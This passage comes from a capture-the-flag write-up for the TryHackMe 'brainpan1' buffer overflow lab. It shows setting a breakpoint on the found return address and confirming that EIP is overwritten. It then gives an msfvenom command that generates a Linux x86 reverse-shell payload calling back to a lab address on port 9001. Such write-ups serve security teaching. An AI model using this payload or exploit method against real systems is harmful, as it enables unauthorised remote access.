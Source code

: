 
Click the highlighted button and input the return address weve found. 
Then press F2 and it will highlight as a breakpoint: 

![breakp30](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/breakp30.png)


We should be good to go, Lets start the service and run our script, and see what happens:

![breakp-results31](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/breakp-results31.png)


Our breakpoint was hit, and the EIP is fully overwritten with the return address. Perfect. 
Now all we need is some shellcode to jump to. 


### Genereting Shellcode and Getting a Shell

This is the last stage in our exploit development, lets use `msfvenom` to generate a reverse shell: 

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.18.22.182 LPORT=9001 EXITFUNC=thread -f python -a x86 -b '\x00'`

![venom32](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/venom32.png)
